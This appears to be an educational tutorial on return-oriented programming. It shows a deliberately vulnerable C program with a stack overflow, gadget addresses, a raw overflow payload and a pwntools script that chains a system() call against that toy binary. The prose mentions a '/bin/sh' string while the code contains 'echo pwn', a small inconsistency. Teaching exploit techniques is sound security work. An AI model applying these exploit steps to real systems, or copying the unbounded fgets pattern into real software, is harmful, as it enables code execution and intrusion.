

# Introduction
Return-oriented programming is a set of techniques which allow code execution and bypass data execution prevention defences, such as NX, and code signing. ROP utilises *gadgets* in order to build chains and execute arbitrary instruction sequences.

Given control over the stack, an attacker may fill it with malicious return addresses, all pointing to the subsequent gadget in the ROP chain. When one gadget is executed, the `ret` instruction jumps to the address stored at the top of the stack and the stack pointer is incremented. Consequently, the stack pointer now points to the next malicious return address, forming a chain of gadgets.

## Gadgets
ROP gadgets are tiny instruction sequences which are already found in the target binary and end in a `ret` instruction. To manually find them within a binary, one might use a tool called `ROPgadget` with the following basic syntax:

`ROPgadget --binary [binary name]`



## Exploitation
```cpp
#include <stdio.h>
#include <stdlib.h>

void func()
{
	system("echo 'An inconspicuous echo...'");
}

void vuln()
{
	char input[20];
	fgets(input, 0x60, stdin);
}

int main()
{
	char* HarmlessString = "echo pwn";
	vuln();
	func();
	return 0;

}
```

We immediately notice a potential buffer overflow. Since `system` is called in the execution process of the binary, it will have a corresponding PLT entry. Furthermore, the string `"/bin/sh"` has been conveniently place in the binary - If we had the proper gadgets, we could string together a ROP chain, allowing us to execute `system("/bin/sh")`. Well, let's start digging.

Running ROPgadgets on the above binary reveals a way to write to `rdi`!
`0x000000000000126b : pop rdi ; ret`

Consequently, we can just write the address of the `"/bin/sh"` string in the binary, place it on the stack and, when the time comes, `rdi` will be populated with this address. All we will then need to do is return to the PLT entry of `system`, so that the function is invoked with the correct argument!

The addresses we need turn out to be:

`0x555555555040` - PLT entry of `system`
`0x55555555526b` - `pop rdi; ret` gadget
`0x555555556028` - `"/bin/sh"`
`0x5555555551ff` - the address we want to continue execution from once the ROP chain is finished

Knowing that we need exactly 40 character to overflow the return address of `vuln`, we get the following payload.

`AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x6b\x52\x55\x55\x55\x55\x00\x00\x28\x60\x55\x55\x55\x55\x00\x00\x40\x50\x55\x55\x55\x55\x00\x00\xff\x51\x55\x55\x55\x55\x00\x00`


Input file:


And... exploit!


## Exploiting with pwntools
`pwntools` comes with tools for automating the process of finding gadgets and stringing them into chains for exploitation.

You will first need to load the ELF executable and specify its base address:
```python
elf = ELF('./rop')
elf.address = 0x555555554000
```

Subsequently, initialise a ROP object:
```python
rop = ROP(elf)
```
## Pwntools ROP commands
Get a dictionary of available gadgets:
```python
rop.gadgets
```


Insert raw bytes into the chain:
```python
rop.raw(bytes)
```


Call functions:
```python
rop.call(symbol, [arguments])
```


Get chain as bytes:
```python
rop.chain()
```


### The Exploit
Using the above cheatsheet, we arrive at the following python script for exploitation:
```python
#!/usr/bin/python3

from pwn import *

context.clear(arch='amd64')
elf = ELF('./rop')
elf.address = 0x555555554000

rop = ROP(elf)
rop.call(elf.symbols['system'], [next(elf.search(b"echo pwn\x00"))])

prog = process('./rop')

payload = [b"A"*40, rop.chain()]
payload = b"".join(payload)

prog.sendline(payload)
prog.interactive()

```


